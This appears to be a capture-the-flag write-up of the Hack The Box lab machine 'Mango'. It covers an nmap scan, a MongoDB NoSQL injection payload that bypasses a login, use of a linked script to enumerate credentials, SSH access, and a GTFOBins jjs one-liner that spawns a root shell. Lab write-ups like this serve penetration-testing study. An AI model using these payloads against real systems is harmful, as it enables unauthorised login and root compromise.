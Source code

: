 # Mango

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.219 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:22 EDT
Nmap scan report for 10.129.1.219
Host is up (0.012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Port 443

Port 80 straight up denies me, and when we head to port 443 we see that this is some type of search engine:

<figure><img src="../../../.gitbook/assets/image (15) (6).png" alt=""><figcaption></figcaption></figure>

When we view the certificate, we see that there's another domain present:

<figure><img src="../../../.gitbook/assets/image (18) (9) (1).png" alt=""><figcaption></figcaption></figure>

We can enumerate that instead, because why would they hide it if testing for SSRF wasn't a rabbit hole?

### NoSQL Injection

The HTTPS site had nothing for that domain, but the HTTP site revealed a login page:

<figure><img src="../../../.gitbook/assets/image (35) (6) (1).png" alt=""><figcaption></figcaption></figure>

From reading the box name, it was obviously related to exploiting MongoDB, which does not use SQL (otherwise called NoSQL). This login page might be vulnerable to NoSQL injection. I tried this payload:

```
username[$ne]=toto&password[$ne]=toto
```

When examining requests in Burp, I found that the NoSQL Injection returned a 302.

<figure><img src="../../../.gitbook/assets/image (42) (7).png" alt=""><figcaption></figcaption></figure>

While the regular request returned a 200.&#x20;

<figure><img src="../../../.gitbook/assets/image (26) (9) (1).png" alt=""><figcaption></figcaption></figure>

This to me was a clear indication that NoSQL Injection was the path here. I used a script I found on Github to find the rest:

{% embed url="https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py" %}

We can first verify the usernames:

<figure><img src="../../../.gitbook/assets/image (6) (10).png" alt=""><figcaption></figcaption></figure>

This also confirms that it works and it finds 2 users, `mango` and `admin`. Then, we can find the passwords:

<figure><img src="../../../.gitbook/assets/image (29) (6) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can use one of the passwords to SSH in:

<figure><img src="../../../.gitbook/assets/image (30) (8) (1).png" alt=""><figcaption></figcaption></figure>

We can also `su` to `admin` using the other password.

<figure><img src="../../../.gitbook/assets/image (7) (4) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JJS SUID

I ran LinPEAS for to enumerate. Within the output, I found one SGID binary.

<figure><img src="../../../.gitbook/assets/image (23) (8) (1).png" alt=""><figcaption></figcaption></figure>

We can run `jjs` to get a `root` shell. All we need to do is follow what is written on GTFOBins:

{% code overflow="wrap" %}
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (47) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!
